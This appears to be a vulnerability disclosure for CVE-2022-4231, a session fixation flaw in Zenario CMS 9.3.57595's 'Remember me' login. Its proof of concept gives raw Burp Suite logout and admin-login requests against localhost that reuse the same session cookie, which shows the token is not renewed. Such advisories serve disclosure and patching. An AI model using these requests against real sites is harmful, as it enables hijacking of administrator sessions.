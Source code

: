 # [CVE-2022-4231](https://www.cve.org/CVERecord?id=CVE-2022-4231)

Tribal Systems Zenario CMS 9.3.57595 _Remember Me_ Session Fixiation

Description: In Zenario CMS user session identifier (authentication token) is issued to the browser prior to authentication but is not changed after user logout and login again into the application when "Remember me" option active. Failing to issue a new session ID following a successful login introduces the possibility for an attacker to set up a trap session on the device the victim is likely to login with.

The product(s): https://zenar.io

Affected product(s)/code base: https://github.com/TribalSystems/Zenario

Affected component(s): /Zenario-9.3.57595/zenario/admin/welcome.ajax.php

Tested version: Zenario-9.3.57595

# Proof of Concept

1. Logout with current session to confirm the session is not valid

Burpsuite Request:

``` txt
POST /Zenario-9.3.57595/zenario/admin/welcome.ajax.php?task=logout&get=%7B%22task%22%3A%22logout%22%2C%22cID%22%3A%221%22%2C%22cType%22%3A%22html%22%7D HTTP/1.1
Host: localhost
Content-Length: 19
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Referer: http://localhost/Zenario-9.3.57595/admin.php?task=logout&cID=1&cType=html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9
Cookie: PHPSESSID-Zenario_9_3_57595=mbu2ar0qnut2bmibuka94fq1ue
Connection: close

_fill=true&_values=
```

![](images/logout.png)

To confirm, request change password for admin is not success.

![](images/change-pass-fail.png)

2. Login as administrator with "Remember me".

Burpsuite Request:

``` txt
POST /Zenario-9.3.57595/zenario/admin/welcome.ajax.php?task=&get=%7B%22cID%22%3A%221%22%2C%22cType%22%3A%22html%22%7D HTTP/1.1
Host: localhost
Content-Length: 726
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Referer: http://localhost/Zenario-9.3.57595/admin.php?cID=1&cType=html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9
Cookie: PHPSESSID-Zenario_9_3_57595=mbu2ar0qnut2bmibuka94fq1ue
Connection: close

_validate=true&_box={"tab"%3a"~login","tabs"%3a{"login"%3a{"edit_mode"%3a{"on"%3a1},"fields"%3a{"reset"%3a{"_was_hidden_before"%3atrue},"description"%3a{},"secure_connection"%3a{"_was_hidden_before"%3atrue},"not_secure_connection"%3a{},"username"%3a{"current_value"%3a"~leecybersec~40gmail~2Ecom"},"password"%3a{"current_value"%3a"~leecybersec"},"admin_login_captcha"%3a{"_was_hidden_before"%3atrue,"current_value"%3a""},"remember_me"%3a{"current_value"%3atrue},"admin_link"%3a{},"login"%3a{"pressed"%3atrue},"forgot"%3a{"pressed"%3afalse},"previous"%3a{"pressed"%3afalse}}},"forgot"%3a{"edit_mode"%3a{"on"%3a1},"fields"%3a{"description"%3a{},"email"%3a{"current_value"%3a""},"previous"%3a{},"reset"%3a{}}}},"path"%3a"~login"}
```

![](images/login.png)

To confirm, request change password for admin is success.

![](images/change-pass-success.png)